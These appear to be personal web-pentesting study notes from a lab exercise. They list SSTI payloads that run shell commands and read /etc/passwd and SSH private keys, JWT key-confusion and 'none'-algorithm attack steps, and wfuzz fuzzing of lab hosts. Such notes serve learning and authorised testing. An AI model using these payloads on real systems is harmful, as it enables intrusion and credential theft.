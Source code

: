 part I

Server Side Template Injection	SSTI

{{2+2}} 


https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}} 

{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}


{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}


{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/test/.ssh/id_rsa').read() }}

tool
https://github.com/epinna/tplmap



CSRF	Cross Site Request Forgery


user visits a page on a site, that performs an action on a different site

pip3 install xsrfprobe

xsrfprobe -u <url>/<endpoint>




JWT  Json Web Tokens

http://jwt.io

Token breaker in Downloads folder 



using public key


change header to from RS256 to HS256, 

convert public key 
cat <key> | xxd -p | tr -d "//n"

openssl sign as valid HS256

echo -n "Key" | openssl dgst -sha256 -mac HMAC -macopt hexkey:<inputFromAbove>

decode hex to binary

python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(bin ascii.a2b_hex('<stdin from above>')).replace('=','')\")"


using header none



https://github.com/lmammino/jwt-cracker

jwt-cracker <token> [alphabet] [max-length]





part II





IDOR


Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. 


playing with url ,,,




Forced Browsing

dirsearch
dirbuster
dirb
ZAP
Burpsuite 

wfuzz


000001659:   404        6 L      57 W       553 Ch      "accountants"  
000001661:   404        6 L      57 W       550 Ch      "accounts"     
000001664:   404        6 L      57 W       552 Ch      "acct_login"   
000001669:   404        6 L      57 W       551 Ch      "acerca-de"    
000001667:   404        6 L      57 W       548 Ch      "acdsee" 

We can see that when there isn't a note.txt it returns a 404, with 57 words. Let's hide 57 words by setting --hw to 57.

─$ wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 57 10.10.113.150:81/FUZZ/note.txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.113.150:81/FUZZ/note.txt
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================
000013500:   200        1 L      1 W        20 Ch       "password"  




API bypassing

 This is a bit of a unique one, as it can basically be anything. APIs are by definition incredibly versatile, and finding out how to exploit them, will require a lot of research and effort by the hacker. The following situation is only one possible scenario out of a near infinite number.
 
 ─$ wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hw 0 10.10.113.150:82/api.php?FUZZ=flag.txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.113.150:82/api.php?FUZZ=flag.txt
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                
=====================================================================

000007534:   200        1 L      1 W        15 Ch       "file"                                                                                                 

Total time: 0
Processed Requests: 9596
Filtered Requests: 9595
Requests/sec.: 0














